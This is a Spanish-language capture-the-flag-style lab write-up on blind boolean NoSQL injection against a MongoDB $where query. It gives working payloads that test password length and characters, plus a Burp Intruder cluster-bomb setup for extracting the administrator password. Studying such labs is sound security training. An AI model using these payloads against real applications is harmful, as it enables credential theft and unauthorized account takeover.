







# 💉 Extracción de datos con inyección NoSQL

## 📄 Descripción del laboratorio

La aplicación incluye una **búsqueda de usuarios** que consulta una base de datos **MongoDB**.

El parámetro `user` se concatena directamente en una **expresión JavaScript evaluada por el backend**, lo que habilita una **inyección NoSQL**.

**Objetivo del laboratorio:**

* Extraer la **contraseña del usuario `administrator`**
* Utilizar **extracción ciega (boolean-based)** carácter por carácter
* Iniciar sesión con esas credenciales y resolver el laboratorio

Credenciales de prueba:

```
wiener:peter
```

 

## 📚 Teoría

En implementaciones inseguras es común encontrar consultas como:

```javascript
db.users.find({
  $where: "this.username == '" + req.query.user + "'"
})
```

En este caso:

* La entrada del usuario se evalúa como **JavaScript**
* Podemos acceder a propiedades del documento (`this.password`)
* Podemos construir **condiciones booleanas**

Estas condiciones:

* Devuelven resultados si son **verdaderas**
* No devuelven resultados si son **falsas**

### Extracción ciega de datos

Si podemos distinguir **verdadero vs falso** mediante la respuesta de la aplicación, podemos reconstruir datos sensibles.

El proceso consiste en:

1. Descubrir la **longitud del campo**

```javascript
this.password.length
```

2. Extraer cada carácter individual

```javascript
this.password[i]
```

Repitiendo el proceso para cada posición es posible **reconstruir completamente el valor**.

Esta técnica se utiliza para extraer:

* Contraseñas
* Tokens
* Claves API

 

## 📝 Práctica

### 1️⃣ Identificación del endpoint vulnerable

Iniciamos sesión con las credenciales de prueba:

```
wiener:peter
```

Observamos una funcionalidad de búsqueda de usuario.

<br>

Interceptamos la petición:

```http
GET /user/lookup?user=wiener
```

La enviamos al **Repeater**.


 

### 2️⃣ Confirmación de inyección NoSQL

Probamos una condición lógica:

```
user='||true||'
```

<br>

La respuesta devuelve el **primer elemento de la colección**, normalmente el usuario `administrator`.

Esto confirma que:

* La entrada del usuario se evalúa como **JavaScript**
* Existe **NoSQL Injection**

 

### 3️⃣ Descubrir la longitud de la contraseña

Probamos condiciones sobre la longitud del campo `password`.

Ejemplo:

```
user=administrator'%26%26this.password.length == 8 || '
```

Interpretación:

* Si la respuesta devuelve resultados → condición **verdadera**
* Si no devuelve resultados → condición **falsa**

Probando diferentes valores confirmamos que:

```
this.password.length = 8
```


 

### 4️⃣ Extracción carácter por carácter

Ahora probamos cada posición de la contraseña.

Ejemplo para el primer carácter:

```
user=administrator'%26%26this.password[0] == 't
```

Si la respuesta devuelve resultados, significa que el carácter es correcto.

Si no, probamos otro carácter.

Repetimos el proceso para todas las posiciones.


 

### 5️⃣ Automatización con Burp Intruder

Para acelerar el proceso utilizamos **Burp Intruder (Cluster bomb)**.

Configuración:

Posición 1\
Índice del carácter:

```
0..7
```

Posición 2\
Charset posible:

```
a-z
0-9
símbolos comunes
```

Payload de ejemplo:

```
administrator'%26%26this.password[§0§]=='§a§
```

<br>

Tras ejecutar el ataque, solo una combinación por posición devuelve resultados.

Con ello reconstruimos la contraseña completa.


 

### 6️⃣ Login final

Iniciamos sesión como:

```
administrator
```

Utilizando la contraseña obtenida.


 

### 7️⃣ Resultado

Se consigue:

* Extraer la **contraseña del usuario administrator**
* Autenticarse correctamente con esas credenciales

✅ **Laboratorio resuelto.**
